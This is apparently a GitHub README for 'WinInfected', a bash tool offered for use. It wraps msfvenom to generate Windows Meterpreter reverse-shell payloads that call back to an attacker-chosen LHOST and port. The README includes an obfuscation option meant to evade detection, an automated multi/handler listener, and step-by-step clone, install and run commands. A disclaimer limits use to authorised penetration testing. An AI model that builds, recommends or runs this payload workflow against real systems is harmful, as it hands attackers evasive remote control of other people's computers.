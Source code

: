 # WinInfected v1.2

WinInfected is a bash script that automates the generation of a Windows Meterpreter payload using `msfvenom` from the Metasploit Framework. The script supports payload obfuscation via the `x86/shikata_ga_nai` encoder (with 5 iterations) when the `--obfuscate` option is specified. It also offers convenient options for checking and installing dependencies, updating the required packages, and launching `msfconsole` with a pre-configured multi/handler.

## Features

- **Payload Generation:** Create a Windows Meterpreter payload using `msfvenom`.
- **Optional Obfuscation:** Use the `x86/shikata_ga_nai` encoder with 5 iterations for payload obfuscation.
- **Dependency Management:** Check for and install missing dependencies (Metasploit Framework).
- **Script Update:** Update dependencies with a single command.
- **Automated Listener:** Optionally launch `msfconsole` with a configured multi/handler to listen for incoming connections.
- **Current Directory Output:** The generated payload is saved in the current working directory with a timestamped filename.

## Usage

## Script Options

```bash
WinInfected v1.2
Usage: ./wininfected [LHOST] [LPORT] [--obfuscate]
Options:
  --dependencies   Check and install missing dependencies.
  --update         Update script and dependencies.
  --obfuscate      Enable payload obfuscation using x86/shikata_ga_nai encoder.
  -h, --help       Display this help message.
  More information: https://github.com/byfranke/wininfected
```

## Steps to Run:

```bash
git clone https://github.com/byfranke/wininfected.git
```

```bash
cd wininfected
```
```bash
chmod +x installer.sh
```

```bash
bash installer.sh
```

Install Dependencies (if needed):
```bash
./wininfected --dependencies
```

Generate a Payload:

Without Obfuscation:
```bash
./wininfected <LHOST> <LPORT>
```

With Obfuscation:
```bash
./wininfected <LHOST> <LPORT> --obfuscate
```

Replace `<LHOST>` with your local host IP and `<LPORT>` with your desired port number.

Launch Listener (Optional): After the payload is generated, the script will prompt:

Do you want to start msfconsole to listen for connections? (y/n):
Enter `y` to launch `msfconsole` with a pre-configured multi/handler, or `n` to exit.

## Dependencies
- Metasploit Framework: Provides both `msfvenom` and `msfconsole`.
Installation (on Debian-based systems):

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

**Notes**
- The generated payload is stored in the current working directory with a filename based on the current timestamp.
- Ensure you run the script with the appropriate permissions to install packages and execute commands.
- This tool is designed for educational purposes and authorized penetration testing only.

## Disclaimer
- **WARNING:** This script is intended for legal, ethical, and authorized penetration testing only. The author is not responsible for any misuse or damage caused by this tool.
